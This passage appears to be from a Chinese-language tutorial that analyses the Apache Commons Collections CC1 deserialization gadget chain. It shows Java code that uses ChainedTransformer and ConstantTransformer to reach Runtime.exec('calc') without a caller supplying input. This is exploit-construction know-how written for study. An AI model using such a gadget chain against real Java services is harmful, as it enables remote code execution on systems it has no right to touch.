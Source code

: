 当调用`chain.transform(Runtime.class)`时，执行流程为：

- 第一步：`t1.transform(Runtime.class)` → 返回`getRuntime`方法的`Method`对象；
- 第二步：`t2.transform(Method对象)` → 调用`invoke`返回`Runtime`实例；
- 第三步：`t3.transform(Runtime实例)` → 调用`exec("calc")`弹出计算器。

### ConstantTransformer

上述链条的触发需要传入`Runtime.class`作为初始参数，但在反序列化场景中，我们无法手动传入参数。因此需要`ConstantTransformer`来提供初始输入，它的`transform`方法会固定返回预设对象：

```java
// 始终返回Runtime.class
Transformer constant = new ConstantTransformer(Runtime.class);

// 完整链条：constant → t1 → t2 → t3
Transformer chain = new ChainedTransformer(new Transformer[]{
    constant, t1, t2, t3
});
```

此时调用`chain.transform(null)`即可自动以`Runtime.class`为起点触发整个链条，无需手动传入初始参数。

代码运行的基础是触发transform. 所以我们需要查看`transform`触发的点.

![image-20251003180001049](./images/CC1链分析/image-20251003180001049.png)
